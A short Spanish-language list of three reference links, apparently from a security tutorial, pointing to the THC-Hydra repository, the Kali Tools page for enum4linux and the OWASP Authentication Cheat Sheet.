- [Repositorio Oficial de THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Guía de enum4linux - Kali Tools](https://www.kali.org/tools/enum4linux/)
- [OWASP - Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
